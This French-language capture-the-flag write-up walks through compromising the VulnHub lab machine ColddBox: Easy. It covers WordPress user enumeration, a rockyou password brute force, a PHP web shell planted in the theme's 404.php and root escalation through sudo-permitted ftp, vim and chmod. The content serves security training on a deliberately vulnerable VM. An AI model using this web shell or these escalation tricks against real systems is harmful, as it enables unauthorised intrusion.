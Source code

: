 ```yaml
---
title: "Solution du CTF ColddBox: Easy de VulnHub"
tags: [CTF, VulnHub]
---
```


[ColddBox: Easy](https://vulnhub.com/entry/colddbox-easy,586/) est comme son nom l'indique un CTF très facile. Il peut toutefois permettre aux débutants de s'initier à différents outils.

Le scan `Nmap` retourne un SSH et un serveur Apache :

```
Nmap scan report for 192.168.56.109
Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
```

Sur le site se trouve un vieux Wordpress. J'ai directement dégainé `WPscan` :

```bash
docker run -it --rm wpscanteam/wpscan --url http://192.168.56.109/  -e ap,at,u
```

Le scanner ne trouve aucun plugin mais il y a différents utilisateurs enregistrés :

```
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <====================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

On va bruteforcer les comptes avec l'aide de la wordlist `rockyou`. Je monte mon dossier `/tmp` à l'emplacement `/data` de la VM pour que `WPscan` voit les fichiers :

```bash
docker run -v /tmp/:/data/ -it --rm wpscanteam/wpscan --url http://192.168.56.109/ -U /data/users.txt -P /data/rockyou.txt
```

Ca ne met pas beaucoup de temps avant qu'un compte soit cassé :

```
[SUCCESS] - c0ldd / 9876543210
```

Heureusement le compte est administrateur, on peut donc arrêter le bruteforce ici et se connecter.

La méthode classique est alors d'utiliser l'éditeur de thèmes pour ajouter du code dans un des fichiers PHP du site. J'ai une préférence pour le fichier `404.php` du template. J'y place le code suivant :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
die(); 
```

Évidemment on évitera de mettre un `die()` dans un scénario plus réaliste.

Je peux alors exécuter des commandes via par exemple `/wp-content/themes/twentyfifteen/404.php?cmd=id`

Mais je ne garde le webshell que le temps de passer à reverse-ssh. Après ça je peux fouiller plus à mon aise. Première étape : voir les identifiants pour le MySQL dans le config du Wordpress :

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Pas besoin d'aller plus loin, le mot de passe mentionner permet de passer `c0ldd` via la commande `su`.

```bash
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

Il ne faut pas longtemps avant de trouver l'étape suivante :

```bash
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Tous ces exécutables permettent d'obtenir un shell s'ils sont lancés avec les droits root.

Exemple avec `ftp` :

```bash
c0ldd@ColddBox-Easy:~$ sudo /usr/bin/ftp
ftp> !id
uid=0(root) gid=0(root) grupos=0(root)
ftp> !bash
root@ColddBox-Easy:~# cd /root
root@ColddBox-Easy:/root# ls
root.txt
root@ColddBox-Easy:/root# cat root.txt 
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

Pour `Vim` on peut bien sûr éditer des fichiers (`/etc/passwd`, `/etc/crontab`, `/etc/sudoers,` etc) pour ajouter un utilisateur privilégié, s'accorder d'autres permissions, etc mais le plus simple est d'invoquer directement un shell depuis l'éditeur :

`:!/bin/sh`

Et pour `chmod` on peut simplement mettre le bit setuid sur `/bin/dash` :

```bash
c0ldd@ColddBox-Easy:~$ sudo /bin/chmod 4755 /bin/dash
c0ldd@ColddBox-Easy:~$ dash -p
# id
uid=1000(c0ldd) gid=1000(c0ldd) euid=0(root) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

*Publié le 18 février 2023*
